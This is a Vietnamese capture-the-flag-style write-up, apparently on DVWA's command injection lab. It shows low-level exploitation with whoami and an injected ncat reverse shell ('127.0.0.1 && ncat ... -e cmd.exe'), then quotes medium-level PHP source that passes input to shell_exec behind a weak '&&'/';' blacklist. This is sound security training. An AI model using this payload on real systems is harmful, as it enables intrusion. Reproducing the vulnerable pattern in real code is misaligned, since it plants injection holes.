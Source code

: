 vậy đoạn code không có cơ chế validate lỗi command injection

### Khai thác

- mình chèn thêm câu lệnh whoami và được hệ thống thực thi

![image](https://hackmd.io/_uploads/Hk1bHVWxA.png)

- tiếp theo mình sẽ chèn shell để netcat đến server mình tạo tại port 8000

```bash
127.0.0.1 && ncat 127.0.0.1 8000 -e cmd.exe
```

![image](https://hackmd.io/_uploads/rybETVWe0.png)

và mình đã chiếm được shel để tương tác với hệ thống

![image](https://hackmd.io/_uploads/rk9WpV-g0.png)

## MEDIUM LEVEL

### Phân tích

- đọc source code mình được:

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the characters in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```
